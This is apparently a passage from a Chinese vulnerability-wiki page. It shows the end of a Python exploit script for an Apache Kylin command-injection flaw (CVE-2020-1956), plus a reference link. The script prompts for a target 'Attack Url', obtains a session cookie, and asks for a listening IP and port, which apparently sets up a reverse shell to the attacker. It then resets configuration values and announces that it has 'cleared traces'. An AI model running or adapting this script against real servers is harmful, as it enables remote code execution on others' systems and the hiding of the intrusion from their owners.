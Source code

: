 ```python
        "Pragma": "no-cache",
        "Cookie": "project=null;JSESSIONID=" + cookie
    }

    for i in range(0,3):
        data = """{"key":"%s","value":"%s"}""" % (key[i], value[i])
        try:
            response = requests.put(url=config_url, headers=headers, data=data, timeout=20)
            if response.status_code == 200:
                print("\033[32m[o] 成功将" + key[i] +"设置为" + value[i] +"\033[0m")
            else:
                print("\033[31m[x] 设置" + key[i] +"为" + value[i] +"失败\033[0m")
                sys.exit(0)
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
            sys.exit(0)
    print("\033[35m[o] 成功清理痕迹\033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    try:
        cookie,Authorization = POC_1(target_url)
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")
        sys.exit(0)
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    POC_2(target_url, cookie, IP, PORT, Authorization)
    POC_3(target_url, cookie)
```

![](http://wikioss.peiqi.tech/vuln/kylin-17.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 参考文章

[Apache Kylin 命令注入漏洞 CVE-2020-1956 POC 分析](https://paper.seebug.org/1237/)

